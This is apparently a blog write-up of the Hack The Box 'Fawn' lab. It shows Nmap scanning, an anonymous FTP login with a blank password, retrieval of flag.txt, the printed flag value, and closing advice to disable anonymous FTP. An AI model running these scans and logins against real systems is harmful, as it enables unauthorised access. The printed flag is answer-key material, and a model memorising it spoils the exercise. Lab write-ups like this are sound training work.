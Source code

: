 ```yaml
---
layout: post
title: "Fawn – Hack The Box"
categories: htb
date: 2025-07-18
---
```


## 🧠 Summary

Hack The Box's **Fawn** is a very easy Linux machine that demonstrates the security risk of enabling **anonymous FTP login**. We will connect to the HTB network, enumerate services using Nmap, log in to FTP without credentials, and retrieve the flag.

---

## 🛠️ Tools Used

- **OpenVPN** – To connect to HTB labs
- **Ping** – For connectivity check
- **Nmap** – For service enumeration
- **FTP Client** – For file download via anonymous login

---

## 🖥️ Target Info

- IP: `10.129.170.179`
- OS: Unix
- Service: FTP (vsftpd 3.0.3)
- Difficulty: Very Easy
- Tags: FTP, Protocols, Reconnaissance, Anonymous/Guest Access

---

## 🚀 Steps to Root

### 1. Connect to HTB VPN
Download your `.ovpn` file from HTB and run:
```bash
sudo openvpn file-name.ovpn
```

### 2. Scan with Nmap
Run an Nmap scan to find open ports and services:
```bash
nmap -sV -Pn 10.129.170.179
```
Result:

![Nmap Scan](/assets/img/htb/fawn/nmapfawn.jpg)

### 3. Connect via FTP (Anonymous Login)
Connect to the FTP service:
```bash
ftp 10.129.170.179
```
When prompted (**FTP's default username is anonymous not root!**):
```bash
Name: anonymous
Password: (press Enter)
```
![Connecting to FTP](/assets/img/htb/fawn/ftp.jpg)

### 4. List Files and Download Flag
Inside the FTP session:
```bash
ls -la
get flag.txt
bye
```
Then view the flag:
```bash
cat flag.txt
```
Flag:
```bash
035db21c881520061c53e0536e44f815
```
![Transfer File](/assets/img/htb/fawn/transfer.jpg)
![View Flag](/assets/img/htb/fawn/view.jpg)

### Key Takeaways
- Anonymous FTP access is a critical misconfiguration because it allows anyone to read or upload files without authentication.
- FTP transmits credentials in plaintext, making it insecure.
- Always disable anonymous FTP access and use SFTP or SCP for secure transfers.
